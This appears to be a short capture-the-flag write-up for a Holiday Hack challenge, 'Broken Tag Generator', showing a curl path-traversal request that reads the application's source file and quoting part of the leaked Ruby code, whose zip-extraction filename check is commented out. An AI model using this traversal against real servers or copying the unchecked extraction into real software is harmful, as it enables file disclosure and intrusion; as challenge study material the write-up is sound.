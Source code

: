 

## Objective 8 Broken Tag Generator
There are multiple ways to achieve the challenge. RCE would be a nice one, the following is just the easiest for lazy guys ;-)
* https://tag-generator.kringlecastle.com/hh to provoce the error-output

```bash
Something went wrong!
Error in /app/lib/app.rb: Route not found
```
* curl https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb will fetch the sourcecode

```python
# encoding: ASCII-8BIT

TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'

# Don't put the uploads in the application folder
Dir.chdir TMP_FOLDER

require 'rubygems'

require 'json'
require 'sinatra'
require 'sinatra/base'
require 'singlogger'
require 'securerandom'

require 'zip'
require 'sinatra/cookies'
require 'cgi'

require 'digest/sha1'

LOGGER = ::SingLogger.instance()

MAX_SIZE = 1024**2*5 # 5mb

# Manually escaping is annoying, but Sinatra is lightweight and doesn't have
# stuff like this built in :(
def h(html)
  CGI.escapeHTML html
end

def handle_zip(filename)
  LOGGER.debug("Processing #{ filename } as a zip")
  out_files = []

  Zip::File.open(filename) do |zip_file|
    # Handle entries one by one
    zip_file.each do |entry|
      LOGGER.debug("Extracting #{entry.name}")

      if entry.size > MAX_SIZE
        raise 'File too large when extracted'
      end

      if entry.name().end_with?('zip')
        raise 'Nested zip files are not supported!'
      end

      # I wonder what this will do? --Jack
      # if entry.name !~ /^[a-zA-Z0-9._-]+$/
```